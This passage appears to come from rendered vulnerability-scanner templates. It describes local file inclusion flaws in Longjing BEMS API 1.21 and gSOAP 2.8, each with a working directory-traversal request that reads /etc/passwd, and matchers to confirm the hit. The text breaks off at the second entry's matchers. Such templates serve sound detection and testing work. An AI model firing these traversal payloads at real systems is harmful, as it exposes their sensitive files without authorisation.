 - Longjing Technology BEMS API 1.21 is vulnerable to local file inclusion. Input passed through the fileName parameter through the downloads API endpoint is not properly verified before being used to download files. This can be exploited to disclose the contents of arbitrary and sensitive files through directory traversal attacks.
- severity - high
- tags - lfi,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/api/downloads?fileName=../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# gSOAP 2.8 - Local File Inclusion

## Description

- gSOAP 2.8 is vulnerable to local file inclusion.
- severity - high
- tags - edb,gsoap,lfi

## Requests

### Step - 1

```
GET /../../../../../../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

```

### Matchers
